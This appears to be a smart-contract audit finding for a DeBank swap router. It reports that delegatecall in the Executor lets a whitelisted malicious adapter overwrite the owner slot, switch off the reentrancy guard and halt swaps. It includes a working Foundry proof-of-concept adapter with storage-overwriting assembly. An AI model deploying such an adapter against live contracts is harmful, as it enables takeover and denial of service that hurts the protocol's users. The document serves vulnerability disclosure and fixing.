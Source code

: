 ### Summary
By passing a malicious adapter through Router.swap(), a compromised admin can exploit the delegatecall in Executor to overwrite critical storage—specifically the owner slot. This results in full control over adapter configuration and swap flow, allowing the attacker to blacklist all adapters, freeze swaps, and cause a complete service-level denial-of-service of the protocol.
### Root Cause
The root cause of this vulnerability lies in the insecure use of delegatecall within the Executor contract. The system is designed to route swaps through external adapter contracts using delegatecall in [Executor.sol#L76-L81](https://github.com/sherlock-audit/2025-07-debank/blob/71400519400e462f92f4b7104a73fa1d8f599321/swap-router-v1/src/executor/Executor.sol#L76-L81) , which runs the adapter’s logic within the storage context of the Executor itself.
This approach exposes critical internal storage — such as the owner variable stored at slot 0 (due to inheritance from OpenZeppelin’s Ownable) — to manipulation. If an attacker can deploy a malicious adapter and convince an admin to whitelist it, they can overwrite storage via crafted delegatecall payloads during a normal swap. This results in full ownership takeover, the ability to modify or wipe out the adapter whitelist, and ultimately a denial-of-service attack that halts all protocol swaps. The core issue is the absence of sandboxing or memory isolation between trusted core logic and externally registered adapter code.
### External Pre-conditions
1.An admin needs to call `updateAdaptor()` to set `whiteListAdapter[maliciousAdapter]` to be true(malicious or accidental behaviour)
### Attack Path
1. **Attacker** deploys a **malicious adapter** contract with custom logic to overwrite storage slot `0` (e.g., to set themselves /random address as `Executor.owner`),disable *re-entrancy* status or overwrite *whitelisted* mapping.
2. **Admin** (accidentally or maliciously) calls `Router.updateAdaptor()` to whitelist the attacker's adapter.
→ *This is required because only whitelisted adapters are allowed to be executed.*
3. **Attacker** calls `Router.swap()` and includes their **malicious adapter** in the swap path.
→ *The input uses the adapter in a valid `MultiPath` and `SinglePath` structure.*
4. **Router** forwards the call to `Executor.executeMegaSwap()` with the attacker's adapter included in the path.
5. **Executor** performs a `delegatecall` into the attacker’s adapter at , executing its logic **within Executor's storage context**.
6. **Malicious adapter logic** overwrites storage slot `0`, setting `Executor.owner` to the attacker’s address.
7. **Attacker** now owns the `Executor`, and calls `updateAdaptor()` to remove all valid adapters or add more malicious ones(Though anyways `executeMegaSwap` is broken now being owned by `router` which is not an owner anymore after the attack !! So this step is not necessary).
8. **Swaps begin to fail** as no valid adapter paths remain, effectively causing a **protocol-wide denial-of-service (DoS)**.
### Impact
The protocol suffers a complete halt of all swap operations.
The attacker gains full control over the Executor contract and can block swaps, remove adapters, or add backdoors.
This results in a protocol-wide denial-of-service (DoS) for all users, who can no longer execute swaps.
### PoC
```solidity
/*
Copyright Debank
SPDX-License-Identifier: BUSL-1.1
*/
pragma solidity ^0.8.25;
import {Test, console} from "forge-std/Test.sol";
import "forge-std/console.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "../src/router/Router.sol";
import "../src/executor/Executor.sol";
import "../src/adapter/mainnet/Adapter1.sol";
interface Cheats {
function expectRevert() external;
function expectRevert(bytes calldata) external;
}
contract MaliciousAdapter is IAdapter {
function executeSimpleSwap(
address fromToken,
address toToken,
uint256 fromTokenAmount,
Utils.SimpleSwap[] memory swaps
) external payable override {
address currentContract = address(this);
assembly {
sstore(1, 0)//disable reentrancy guard
sstore(0, 0x123)//set the executor owner to a hardcoded address of attacker's choice !!
// Now use the currentContract variable
mstore(0x00, currentContract)
mstore(0x20, 2)//slot 2 for whitelistadapter
let slot := keccak256(0x00, 0x40)
sstore(slot, 1)//set to true
return(0, 0)
}
}
receive () external payable {}
// This function is intentionally left empty to allow the contract to receive Ether.
}
contract POC is Test {
//function test() public {}
//a random malicous admin via makeaddr
address admin = makeAddr("admin");
using SafeERC20 for IERC20;
Cheats internal constant cheats = Cheats(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);
Executor public executor;
Router public router;
Adapter1 public adapter1;
address public feeReceiver = 0x5D7c30c04c6976D4951209E55FB158DBF9F8F287;
address[3] public admins =
[0xE472e1083bd428dC168413840a4949E372086167,admin, 0x4049C0A9a11816c79c35dC7206bd48301878A735];
function setUp() public {
router = new Router(
// owner
admins,
// maxFeeRate
1e16
);
adapter1 = new Adapter1(
// dai
0x6B175474E89094C44Da98b954EedeAC495271d0F,
// weth
0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2,
// permit2
0x000000000022D473030F116dDEE9F6B43aC78BA3
);
vm.startPrank(admin);
router.updateAdaptor(address(adapter1), true);
vm.stopPrank();
}
function testExploitDelegatecallStorageHijack() public {
MaliciousAdapter maliciousAdapter = new MaliciousAdapter();
//add the malicious adapter to the whitelist
vm.startPrank(admin);
router.updateAdaptor(address(maliciousAdapter), true);
vm.stopPrank();
// Construct exploit path a simple weth->Dai swap
Utils.SimpleSwap[] memory swaps = new Utils.SimpleSwap[](1);
Utils.Adapter[] memory adapters = new Utils.Adapter[](1);
adapters[0] = Utils.Adapter(payable(address(maliciousAdapter)), 1e18, swaps);
Utils.SinglePath[] memory singlePaths = new Utils.SinglePath[](1);
singlePaths[0] = Utils.SinglePath(address(0), adapters);
Utils.MultiPath[] memory multiPaths = new Utils.MultiPath[](1);
multiPaths[0] = Utils.MultiPath(1e18, singlePaths);
address oldExecutorOwner = router.executor().owner();
deal(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2, address(this), 1 ether);
IERC20(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2).approve(address(router), 1 ether);
// Execute exploit swap
router.swap(
0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2,
1 ether,
0x6B175474E89094C44Da98b954EedeAC495271d0F,
0,
true,
0,
feeReceiver,
multiPaths
);
[-]// Execute exploit swap[/-]
deal(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2, address(this), 1 ether);
IERC20(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2).approve(address(router), 1 ether);
//now owner of executor is hijacked
//reentrancyguard status is down (not nonReentrant)
assert(router.executor().owner() != oldExecutorOwner);
// protocol is haulted and a DOS is carried out !!
vm.expectRevert();
router.swap(
0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2,
1 ether,
0x6B175474E89094C44Da98b954EedeAC495271d0F,
0,
true,
0,
feeReceiver,
multiPaths
);
}
receive() external payable {}
}
```
### Mitigation
1.Remove `delegatecall`, use `call` instead